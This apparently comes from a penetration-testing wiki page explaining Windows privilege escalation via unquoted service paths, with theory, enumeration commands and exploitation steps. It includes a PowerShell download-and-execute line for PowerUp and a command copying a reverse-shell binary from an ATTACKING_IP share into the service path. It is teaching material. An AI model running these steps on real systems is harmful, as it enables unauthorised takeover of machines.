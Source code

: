 ```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Path Interception by Unquoted Path - Technique T1574.09
---
```


# Unquoted Service Path

# Theory

Windows privilege escalation through unquoted service paths is a common vulnerability that occurs when a service executable file is installed in a directory path that contains spaces but is not surrounded by quotation marks.
When Windows starts a service, it looks for the executable file based on the service's configuration. If the path to the executable contains spaces and is not enclosed in quotation marks, Windows may interpret the path incorrectly. In such cases, Windows will try to locate the executable using a combination of the directory names and filenames in the path, which can result in unintended files being executed.  

Here's an example to illustrate this, consider we have the following executable path:
```
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe
```
In order to run SomeExecutable.exe, the system will interpret this path in the following order:
  - C:\Program.exe
  - C:\Program Files\A.exe
  - C:\Program Files\A Subfolder\B.exe
  - C:\Program Files\A Subfolder\B Subfolder\C.exe
  - C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe

# Practice 

{% tabs %}
{% tab title="Enum" %}
We can use wmic to enumerate it:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

Alternativly, we can use `Invoke-AllChecks` from PowerUp
```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```
{% endtab %}

{% tab title="Exploit" %}
You can check if you have write acces to a folder with `icacls`
```powershell
icacls "C:\Program Files\A Subfolder\"
```

If you can write to it, you can place your binary like:
```powershell
copy \\ATTACKING_IP\Share\reverse.exe C:\Program Files\A Subfolder\B.exe  
```

And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths" %}
